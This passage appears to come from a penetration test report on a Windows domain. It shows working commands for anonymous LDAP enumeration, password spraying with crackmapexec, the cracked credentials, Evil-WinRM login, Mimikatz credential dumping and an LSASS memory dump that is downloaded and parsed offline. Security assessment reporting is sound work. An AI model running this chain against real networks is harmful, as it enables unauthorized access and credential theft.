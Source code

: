 ```bash
# Anonymous LDAP bind attempt
ldapsearch -x -h 10.50.2.11 -s base -b "DC=corp,DC=vanguardfs,DC=local"

# Result: Anonymous binds allowed - extracted domain information
```

**Password Spraying:**

```bash
# Initial spray with common passwords (rate-limited)
crackmapexec smb 10.50.2.11 -u valid_users.txt -p 'Summer2024!' --continue-on-success

# Results:
# VANGUARDFS\jthompson:Summer2024! - SUCCESS
# VANGUARDFS\sjenkins:Spring2024! - SUCCESS (discovered in second spray)
```

**Domain Password Policy:**
```
Minimum password length: 8 characters
Password complexity: Enabled
Lockout threshold: 5 invalid attempts
Lockout duration: 30 minutes
Password history: 12 passwords
```

### 2.3 Phase 3: Post-Exploitation & Lateral Movement

#### 2.3.1 Initial Foothold Analysis

**Compromised Account:** `VANGUARDFS\jthompson` (HR Manager)  
**Access Level:** Domain User  
**Initial System:** WKSTN-HR-05 (10.50.1.78)

**Credential Harvesting:**

```bash
# Evil-WinRM access
evil-winrm -i 10.50.1.78 -u jthompson -p 'Summer2024!'

# Check privileges
*Evil-WinRM* PS C:\> whoami /priv
*Evil-WinRM* PS C:\> whoami /groups

# Local user enumeration
*Evil-WinRM* PS C:\> net localgroup administrators
```

**Finding:** jthompson is member of "Remote Desktop Users" but not local administrator

**Memory Credential Extraction (if admin access obtained):**

```powershell
# Mimikatz execution
*Evil-WinRM* PS C:\> upload mimikatz.exe
*Evil-WinRM* PS C:\> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Alternative: LSASS dump
*Evil-WinRM* PS C:\> rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\temp\lsass.dmp full
*Evil-WinRM* PS C:\> download C:\temp\lsass.dmp

# Offline analysis
pypykatz lsa minidump lsass.dmp
```
